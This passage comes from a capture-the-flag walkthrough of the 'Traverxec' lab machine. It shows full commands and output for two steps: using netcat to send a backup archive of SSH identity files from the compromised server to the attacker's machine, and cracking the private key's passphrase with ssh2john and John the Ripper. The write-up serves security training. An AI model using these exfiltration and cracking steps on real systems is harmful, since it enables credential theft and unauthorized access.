 We can use netcat to transfer the file from the server to our local machine. On attacker machine:

```
# nc -lvp 9001 > backup-ssh-identity-files.tgz
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.10.165.
Ncat: Connection from 10.10.10.165:51542.
```

On server

```
www-data@traverxec:/usr/bin$ nc -w 3 10.10.15.200 9001 < /home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz
<w/protected-file-area/backup-ssh-identity-files.tgz
www-data@traverxec:/usr/bin$
```

Extracting the contents of the file and trying to login as user david didn't work as this unfortunately, required a passphrase. I attempted to you the password I cracked earlier but this failed. Hence the next action would be to use `ssh2john.py` on the private certificate file to generate a hash and try to crack the passphrase:

```
# ssh -i /root/traverxec/id_rsa david@10.10.10.165
Enter passphrase for key '/root/traverxec/id_rsa':
Enter passphrase for key '/root/traverxec/id_rsa':
Enter passphrase for key '/root/traverxec/id_rsa':
david@10.10.10.165's password:
Permission denied, please try again.
david@10.10.10.165's password:
Connection closed by 10.10.10.165 port 22
```

First, we generate a hash from the file and then use John to crack the hash:

```
root@cyb3r:/opt/JohnTheRipper/run# ./ssh2john.py /root/traverxec/id_rsa > ssh2john.txt
# john --wordlist=/usr/share/wordlists/rockyou.txt ssh2john.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (/root/traverxec/id_rsa)

1g 0:00:00:10 DONE (2019-12-01 22:04) 0.09852g/s 1412Kp/s 1412Kc/s 1412KC/sa6_123..*7¡Vamos!
Session completed
```

After this I then attempted the SSH login again using `hunter` as the passphrase and I successfully logged in and can get the user flag.
